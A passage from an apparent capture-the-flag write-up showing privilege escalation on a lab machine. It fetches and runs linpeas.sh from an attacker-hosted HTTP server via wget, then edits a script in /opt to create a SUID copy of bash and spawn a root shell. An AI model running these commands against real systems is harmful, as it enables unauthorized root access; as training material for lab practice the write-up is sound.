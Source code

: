 ```python
python -m http.server 80
```

![publisher15](https://github.com/user-attachments/assets/95d3a120-a6e1-4b7a-918c-3ed1bc225924)

```python
wget http://<ip>/linpeas.sh
chmod 700 linpeas.sh
./linpeas.sh
```

![publisher17](https://github.com/user-attachments/assets/39606767-79f7-4811-86c6-6f10a002937d)

![publisher18](https://github.com/user-attachments/assets/03ee5ad6-3177-469d-a2c8-7205ecb25d54)

**Identifying Privilege Escalation Path:**  
linpeas flagged an unusual file in `/opt`—`run_container.sh`. I examined it, and using the information from linpeas, I copied `/bin/bash` into the `/run/user/1000` directory, edited `run_container.sh` to spawn a privileged shell, and executed it:

![publisher19](https://github.com/user-attachments/assets/987d4d02-6bf0-4ece-9564-4148978c9be7)

```bash
cp /bin/bash /run/user/1000
./bash
cd /opt
nano run_container.sh
```

![publisher20](https://github.com/user-attachments/assets/b7c7f5a3-c1ac-487b-8072-4b710be44954)

![publisher21](https://github.com/user-attachments/assets/10a1b473-5298-437d-b34a-339303783776)

**Escalating to Root:**  
Inside `run_container.sh`, I added a payload to create a root shell:

![publisher22](https://github.com/user-attachments/assets/942059be-2abf-4b6c-9ff3-cf7fbf51a57d)

```bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
/tmp/bash -p
```

![publisher23](https://github.com/user-attachments/assets/6418a39b-2b49-4721-8ad2-e816291e908a)

This gave me a root shell, and I was able to read the root flag:

```bash
cd /root
cat root.txt
```

![publisher24](https://github.com/user-attachments/assets/3bdb1074-16cd-4e94-8ef0-d055c9909923)
